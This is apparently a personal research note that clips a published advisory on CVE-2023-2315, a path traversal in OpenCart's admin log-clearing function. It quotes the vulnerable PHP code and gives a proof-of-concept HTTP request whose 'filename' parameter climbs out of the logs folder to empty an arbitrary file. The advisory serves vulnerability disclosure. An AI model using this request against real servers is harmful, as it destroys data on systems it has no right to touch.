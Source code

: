 ```yaml
---
author: STAR Labs
aliases:
  - (CVE-2023-2315) Path Traversal in OpenCart Versions 4.0.0.0 to 4.0.2.2
tags:
  - readwise/articles
  - opencart
  - vulnerability-research/finished
url: https://starlabs.sg/advisories/23/23-2315/
date: 2024-08-20
category:
  - Web
last-time: 2024-08-20
---
```

# (CVE-2023-2315) Path Traversal in OpenCart Versions 4.0.0.0 to 4.0.2.2

![rw-book-cover](https://starlabs.sg/logo-white.png)

## Highlights


> Path traversal in Opencart versions 4.0.0.0 to 4.0.2.2 allows authenticated backend users to empty any existing file on the server with write permissions.
> [View Highlight](https://read.readwise.io/read/01hbtz770ryfnn3ydpz85a81v7)
> #advisory  

# PoC

*admin\controller\tool\log.php*

```php title:"admin\controller\tool\log.php"
class Log extends \Opencart\System\Engine\Controller {
...
public function clear(): void {
	if (isset($this->request->get['filename'])) {
            $filename = (string)$this->request->get['filename'];
        } else {
            $filename = '';
        }
	...
	$file = DIR_LOGS . $filename;
        if (!is_file($file)) {
            $json['error'] = sprintf($this->language->get('error_file'), $filename);
        }
        if (!$json) {
            $handle = fopen($file, 'w+');
            fclose($handle);
            $json['success'] = $this->language->get('text_success');
        }
        ...
```

The application does not manage  the `filename` field and allows to delete arbitrary files.



```http
GET /opencart-latest/admin/index.php?route=tool/log.clear&user_token=40cc3d40e897751f863b18ea52eaa3e9&filename=../../../../../../../../dev/shm/PoC.txt HTTP/1.1
Host: 127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Referer: http://127.0.0.1/opencart-latest/admin/index.php?route=tool/log&user_token=40cc3d40e897751f863b18ea52eaa3e9
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0
Connection: close


HTTP/1.1 200 OK
```